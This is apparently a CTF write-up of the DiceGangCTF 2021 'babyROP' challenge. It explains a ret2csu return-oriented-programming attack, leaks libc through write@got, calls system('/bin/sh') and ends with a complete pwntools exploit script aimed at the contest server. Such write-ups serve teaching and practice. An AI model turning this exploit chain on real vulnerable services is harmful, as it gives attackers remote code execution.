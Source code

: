 ```yaml
---
title: "babyROP"
date: 2021-10-04
event: DiceGangCTF 2021
points: 121
difficulty: easy
tags: ["csu", "ret2csu", "dicegang"]
---
```


This is a basic ROP Challenge that involves a technique called the ret2csu. We use this when there is a lack of gadgets.
<!--more-->

## Challenge Description
![](/images/babyROP_dice/challdesbabyrop.png)

## Solution:

* Checkout the mitigations of the binary
* Try to find gadgets since this is a ROP challenge. If you dont know much about ROP checkout [ROPemporium](https://ropemporium.com/).
* Craft the payload to get flag from server.

## Mitigations:
![bob](/images/babyROP_dice/mitigationdice.png)
* We can't excecute shellcode (NX Enabled)
* No Canary found - no need for brute force or leaks
* PIE disabled - the address of the binary wont be randomised

## Finding Gadgets:

Install ROPgadget to find all the gadgets in the binary.
```bash
ROPgadget --binary babyrop
```
My first thought was to ``write`` the address pointed by the got of ``write``. The idea was to leak the address of write function. Since write has already been called by the program the GOT of write will be populated and the got will point to the libc address of write. The following gadgets are needed. 
```asm
pop rdi
pop rsi 
pop rdx
```
I did not have the pop rdx register which makes the challenge a bit more intresting. So we need to find a way to set the value of RDX, RSI, RDI. 
```asm
rsi - point to the buffer [write@got]
rdi - file discriptor = 1
rdx - size of the buffer = >8
```

Since ropgadget did not give me the gadget I went to look for more gadgets in the `__libc_csu_init`. There I could find all the gadgets I wanted. 

## Crafting Exploit: 

These are the important gadgets I want.

![](/images/babyROP_dice/gadgetsdice.png)

## Idea 

First overflow the buffer with garbage and then make return jump to csu. Things to note.

```asm
0x00000000004011b0 <+64>:	mov    rdx,r14
0x00000000004011b3 <+67>:	mov    rsi,r13
0x00000000004011b6 <+70>:	mov    edi,r12d

0x00000000004011ca <+90>:	pop    rbx
0x00000000004011cb <+91>:	pop    rbp
0x00000000004011cc <+92>:	pop    r12
0x00000000004011ce <+94>:	pop    r13
0x00000000004011d0 <+96>:	pop    r14
0x00000000004011d2 <+98>:	pop    r15
0x00000000004011d4 <+100>:	ret 
```

Now we can control the RDI, RSI, RDX because we can control the r14, r13, r12 registers. Intresting area was the call to `QWORD PTR [r15+rbx*8]` inbetween these gadgets. So we decided to make this `QWORD PTR [r15+rbx*8]` as the write function. In order to do this well set r15 as the address to write@got and rbx as 0. 

```asm
0x00000000004011b9 <+73>:	call   QWORD PTR [r15+rbx*8]
0x00000000004011bd <+77>:	add    rbx,0x1
0x00000000004011c1 <+81>:	cmp    rbp,rbx
0x00000000004011c4 <+84>:	jne    0x4011b0 <__libc_csu_init+64>
```
Hmmm :(. Seems like there is a compare statement that'll make us jump back to the csu+64 (which is somewhere in the middle of csu). Now lets make rbp as 1 so we dont take the jump.

```python
buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0)
buf += p64(0)*7
buf += p64(elf.sym['main'])
```

Exploit for leaking libc write address looks something like this. :) Now lets just recv the leak and see what libc they are using. To find out their libc go to [libc.blukat.me](https://libc.blukat.me/)

![](/images/babyROP_dice/blukatdice.png)

Now its basic math, since all the address in the libc will be at the same offset from one another. Once you get the leak just find address of /bin/sh and system then just call system with /bin/sh as argument. Pretty intresting challenge and fun to solve :).

Anyway here is the exploit script for this challenge.

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './babyrop'

elf = ELF("./babyrop")

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = remote("dicec.tf", 31924)

# shellcode = asm(shellcraft.sh())

'''
0x00000000004011d3 : pop rdi ; ret

write syscall 
rdi = 1
rsi = pointer to puffer (pointer to write function)
rdx = size
'''

p.recvuntil(": ")

buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0) 
buf += p64(0)*7
buf += p64(elf.sym['main'])
p.sendline(buf)

# log.info("write leak: {}".format((hex(u64(p.recv(8))))))

leak = int(hex(u64(p.recv(8))), 16)
log.info("Write leak: {}".format(hex(leak)))

sys = leak-0xbbdc0

binsh = leak+0xa63da

buf = b"a"*72
buf += p64(0x40116b) #ret
buf += p64(0x00000000004011d3) #pop rdi 
buf += p64(binsh)
buf += p64(sys)

p.sendline(buf)

p.interactive()


```